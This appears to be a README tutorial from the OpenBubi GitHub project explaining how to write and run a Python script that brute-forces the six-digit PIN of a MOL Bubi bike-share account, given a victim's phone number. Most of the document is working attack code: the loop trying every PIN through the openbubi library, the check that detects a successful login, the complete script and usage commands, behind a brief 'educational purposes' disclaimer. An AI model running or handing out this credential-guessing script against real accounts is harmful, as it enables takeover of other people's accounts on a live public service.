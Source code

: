 # <p align="center">Using for brute force attacks</p>

*Disclaimer: this guide is for educational purposes only. I do not support black-hat hacking, because it is illegal*

## What are we going to do?

We are going to make an algorithm, that tries to login to a MOL Bubi account with every 6-digit password

## Write the program

First of all, make a new Python script in the cloned folder

```bash
mkdir bubiforce && touch bubiforce/bubiforce.py
```

Then import all the necessary modules in the newly created program/script

```python
import sys # for path manipulation
sys.path.append("../") # add openbubi.py's folder to the current path
import openbubi
import json # for converting openbubi output to dictionary
import itertools # for making an iterable object with all the six-digit numbers
import getpass # for getting input from the user without echoing
```

Then get an input from the user about the phone number of the victim

```python
phoneNumber = getpass.getpass("Please enter a phone number: ")
```

Then make a `for` cycle, that iterates over the list of six-digit numbers (using `itertools`), and tries every possible password for authenticating

```python
# make an iterable object that contains all six-digit numbers, and iterate through that
for i in itertools.product("0123456789", repeat=6):
  # convert the elements of the current tuple to a string
  currentNum = "".join(i)
  # print currentNum out
  print(currentNum)
  # make a new BubiUser instance with the password `currentNum`
  user = openbubi.BubiUser(phoneNumber, currentNum)
  """
  Really long line, but I'll explain it.
  If there is an error while logging in, MOL Bubi returns an error code like this:

  {
  "server_time": 1635867338,
  "error": {
    "code": 1,
    "message": "A felhasználó nem található, vagy a bejelentkezés nem sikerült.",
    "reference": "61815aca3f4fe"
    }
  }

  There is a JSON object, that contains an error key with a value that contains
  another JSON object with the error code, error message, and reference.
  So, if we want to detect login failure, we need to check if there is a key named "error".
  So we need to:
  1. Convert the output of user.login() to a dictionary
  2. Convert all the keys of this dictionary into a list
  3. Check if the statement 'there is an element in that list called error' is false
  4. If that is false, then we got no errors, and the pin is correct
  """
  if ("error" in list(json.loads(user.info()).keys())) == False: # there is no error
    print(f"Match! The pin is {currentNum}")
    quit() # quit the program
```

The complete code is:

```python
import sys # for path manipulation
sys.path.append("../") # add openbubi.py's folder to the current path
import openbubi
import json # for converting openbubi output to dictionary
import itertools # for making an iterable object with all the six-digit numbers
import getpass # for getting input from the user without echoing

phoneNumber = getpass.getpass("Please enter a phone number: ")

# make an iterable object that contains all six-digit numbers, and iterate through that
for i in itertools.product("0123456789", repeat=6):
  # convert the elements of the current tuple to a string
  currentNum = "".join(i)
  # print currentNum out
  print(currentNum)
  # make a new BubiUser instance with the password `currentNum`
  user = openbubi.BubiUser(phoneNumber, currentNum)
  """
  Really long line, but I'll explain it.
  If there is an error while logging in, MOL Bubi returns an error code like this:

  {
  "server_time": 1635867338,
  "error": {
    "code": 1,
    "message": "A felhasználó nem található, vagy a bejelentkezés nem sikerült.",
    "reference": "61815aca3f4fe"
    }
  }

  There is a JSON object, that contains an error key with a value that contains
  another JSON object with the error code, error message, and reference.
  So, if we want to detect login failure, we need to check if there is a key named "error".
  So we need to:
  1. Convert the output of user.login() to a dictionary
  2. Convert all the keys of this dictionary into a list
  3. Check if the statement 'there is an element in that list called error' is false
  4. If that is false, then we got no errors, and the pin is correct
  """
  if ("error" in list(json.loads(user.info()).keys())) == False: # there is no error
    print(f"Match! The pin is {currentNum}")
    quit() # quit the program
```

## Usage

Go to the program's directory

```bash
cd bubiforce
```

Run the program

```bash
python bubiforce.py
```

Example output:

```
Please enter a phone number:

000000
000001
000002
000003
...
```

## Source code

I uploaded the source code of this program to [GitHub](https://github.com/PiciAkk/OpenBubi/blob/main/bubiforce/bubiforce.py)
